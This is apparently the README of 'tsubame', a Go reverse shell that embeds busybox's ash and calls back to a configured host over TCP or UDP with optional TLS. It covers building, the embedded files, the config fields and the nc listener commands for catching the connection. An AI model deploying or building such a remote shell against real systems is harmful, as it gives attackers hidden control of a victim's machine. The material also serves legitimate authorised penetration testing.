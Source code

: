 ## Overview

tsubame is a simple reverse shell written with the aim of being a self contained binary that could be deployed in environments where a shell (such as `bash` or `sh`) may not be available.

Upon compilation, tsubame produces a static binary which contains a copy of `busybox`'s `ash` using the [embed package](https://pkg.go.dev/embed). At runtime `tsubame` uses `ash` as a "back-end", passing commands read over the network and feeding it into `ash`. 

For this reason, a copy of `ash` which is compatible with the target architecture must be present in the `data/` directory during the build. The default copy of ash has been compiled for x8664 so the resulting binary will not work on devices using other architectures such as ARM.

For further details about configuration, please see the relevant section below.

## Usage

When executed, `tsubame` calls back to the host:port pair specified in the configuration. It is up to user to handle the incoming connection.

Here are some examples assuming `tsubame` had been configured to call back to `nc` running on port 1234, followed by a demo using `openssl s_server`.

```console
$ nc -l 1234        # tcp plain text
$ nc -ul 1234       # udp plain text
```

https://github.com/user-attachments/assets/5172094b-c899-4ebb-b358-95e8956959d1

## Embedded files
As stated above, `tsubame` embeds some files in the final binary produced. Currently, the following files are included:

- `ash`: A copy of `busybox`'s ash
- `config.json`: The configuration file

All of the files that are embedded live in the `data/` directory. 

If the user would like to replace any of these files, they should place the files in `data/` and update the global variables in `config.go`.   

An example of this is shown in the configuration section.

## Configuration

Configuration is done through editing `data/config.json`. 

This configuration file is also embedded into the binary along side the shell, and is referenced by `tsubame` at runtime. 

Please do not rename the file, or the program produced will not work.

As stated earlier, any files to be embedded should be placed in `data/`, and the appropriate variables in `config.go` should be updated. 

```go
//go:embed data
var fs embed.FS

var DefaultConfigFile = "config.json"       // This
var DefaultShell = "ash"                    // And this.
```

The following is a description of the parameters in the configuration file:

- `address`: The IP address or the host name of the machine to connect to
- `port`: The port to connect to.
- `protocol`: The protocol configuration. 
    - `conn_type`: Either "udp" or "tcp"
    - `tls`: Toggles whether to use TLS or not. Currently TLS is only supported when `conn_type` is  "tcp".
- `timeout`: The time out value in **seconds**. The process will automatically terminate if there is no input for the given timeout value. This is useful when using `udp`, where there is no concept of a session. If the server side-process (the listening process) terminates for some reason, the shell will be running on the target machine indefinitely if it were not for the timeout.
- `shellpath`: The directory `ash` should be written to.
- `debug`: Toggle debug output.

Default config file: 

```json
{
	"address": "localhost",
	"port": 1234,
	"protocol": {
		"conn_type": "tcp",
		"tls": true
	},
	"timeout": 5,
	"shellpath": "/tmp",
	"debug": true
}
``` 
## Disclaimer

This program was written for educational purposes. The author will not take responsibility for the actions of others.
